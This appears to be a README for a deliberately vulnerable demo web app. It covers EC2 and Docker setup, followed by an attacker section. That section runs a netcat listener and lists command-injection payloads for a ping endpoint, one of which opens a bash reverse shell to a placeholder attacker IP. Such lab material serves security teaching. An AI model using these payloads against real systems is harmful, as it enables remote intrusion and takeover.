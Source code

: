 # Setup EC2
- Connect to EC2
```
ssh -i <pem-key>.pem ec2-user@<ec2-public-ip>
```

- Setup Docker
```
sudo amazon-linux-extras install docker -y
sudo service docker start
sudo usermod -aG docker ec2-user  # To run Docker without sudo

exit                              # To renew group permissions
ssh -i <pem-key>.pem ec2-user@<ec2-public-ip>
```

- (Optional) Test docker
```
docker run hello-world
```

- Start application
```
git clone https://github.com/agusalberca/ssrf-demo-app.git
cd /home/ec2-user/ssrf-demo-app
docker build -t ssrf-demo-app .
docker run -d -p 3000:3000 ssrf-demo-app

```

# Atacker machine
## Setup
- Run listener: `nc -lvp 4444`

## Exploit
Post to endpoint `curl 'https://<victim-id>/ping?host='`
    - `8.8.8.8; ls -la`
    - `8.8.8.8; bash -i >& /dev/tcp/attacker-ip/4444 0>&1`
    -